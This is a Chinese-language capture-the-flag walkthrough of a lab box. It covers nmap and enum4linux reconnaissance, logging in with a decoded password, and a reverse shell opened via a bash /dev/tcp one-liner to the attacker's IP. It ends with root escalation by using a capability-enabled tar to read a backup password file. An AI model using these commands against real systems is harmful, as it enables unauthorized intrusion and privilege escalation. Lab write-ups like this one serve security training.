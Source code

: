 
# 0X00 环境
**攻击机：**192.168.1.37<br />**目标机：**192.168.1.10


# 0X01 信息收集
使用[NMAP](https://www.yuque.com/xmtxsec/network_security/xm1y1f)进行端口扫描
```
nmap -sV -A 192.168.1.10 -p-
```
![image.png](_img\06-靶场实践/1671763067854-9fc4c275-e35c-44f8-b67c-a92f7106f3b5.png)
通过扫描结果可以发现开放了五个端口分别是：80、139、445、10000、20000

80端口的页面就是一个Apache2 Debian的默认页面没啥信息，但是在源码有一串疑似加密的字符
![image.png](_img\06-靶场实践/1671763439409-ca1afe71-cc32-4fd0-9b0b-618adf8f8da7.png)

百度[解密](http://tool.bugku.com/brainfuck/?wafcloud=1)的到`.2uqPEfj3D<P'a-3`
![image.png](_img\06-靶场实践/1671763595229-c1f59582-7873-43a6-a291-d8c36d10a30f.png)

10000端口和20000端口都是登录页面上面得到的字符串可能是密码
![image.png](_img\06-靶场实践/1671763724842-93d6fc0a-1d33-4e4d-8dfb-13bff4b9a6cd.png)

在前面端口扫描中扫描出139和445端口是Samba服务，尝试用[enum4linux](https://www.yuque.com/xmtxsec/network_security/dld4wott34mzhboe)探测一下目标的Samba信息，成功得到账号`cyber`
```
enum4linux -a 192.168.1.10
```
![image.png](_img\06-靶场实践/1671765326782-dbf8c1b2-5bcc-4bc8-8f2c-13536e259881.png)

尝试将上面扫描出来的账号`cyber`和密码`.2uqPEfj3D<P'a-3`进行登录<br />在10000端口登录失败，在20000端口登录成功
![image.png](_img\06-靶场实践/1671765508763-48e25ac5-cba2-4a4a-b461-d31080a1334f.png)


# 0X02 漏洞发现
登陆后在页面探索发现在目录下面可以开启命令框可以执行命令
![image.png](_img\06-靶场实践/1671765641423-53487e36-3e66-4cd8-8251-5513264829e9.png)
![image.png](_img\06-靶场实践/1671765679927-4b39f542-cd45-4067-9bc3-71f4864e7cff.png)


# 0X03 漏洞利用
尝试反弹shell<br />攻击机开启监听
```
nc -lvp 6666
```

在靶机命令框执行以下命令
```
bash -i >& /dev/tcp/192.168.1.37/6666 0>&1
```
成功反弹shell
![image.png](_img\06-靶场实践/1671765968810-95c0beeb-8324-48e1-a77b-9b4521f60ac4.png)


# 0X04 提权 
查看当前用户所具有的权限
```
sudo -l
```
![image.png](_img\06-靶场实践/1671766112935-16226dcf-96c5-4dba-ba96-a88eba422d48.png)

 查找具有特殊权限SUID的文件，没什么可以利用的
```
find / -perm -u=s -type f 2>/dev/null
```
![image.png](_img\06-靶场实践/1671766310348-6976511e-41b5-4e38-b325-c1dbdf8e3d44.png)

在前面查看flag的时候目录下有一个tar文件，查看一下他的权限
```
ls -l tar
getcap tar
```
![image.png](_img\06-靶场实践/1671766796800-482d494f-20f8-449f-8573-6526c9f620ce.png)
这里可以看到tar具有root权限并且可以[读取任意文件](https://blog.csdn.net/megan_free/article/details/100357702)

经过查找发现在var/backups下的一个备份文件.old_pass.bak
![image.png](_img\06-靶场实践/1671767044584-28540eb8-d813-4e48-ac64-b7303d0173dc.png)

可以看到这个文件并没有执行权限，但是tar文件有执行权限，所以我们可以**把这个文件用tar压缩后再用系统的tar文件解压**，这样就没有权限问题
```
./tar -cvf passwd.tar /var/backups/.old_pass.bak 
tar -xvf passwd.tar
```
 ![image.png](_img\06-靶场实践/1671769120932-77eca096-ccf5-404f-a9e3-14441e7d665b.png)
得到密码`Ts&4&YurgtRX(=~h`

尝试登录root用户，成功得到flag
![image.png](_img\06-靶场实践/1671769446078-7cff4916-5eb8-4a73-91ed-936203ee88d4.png)





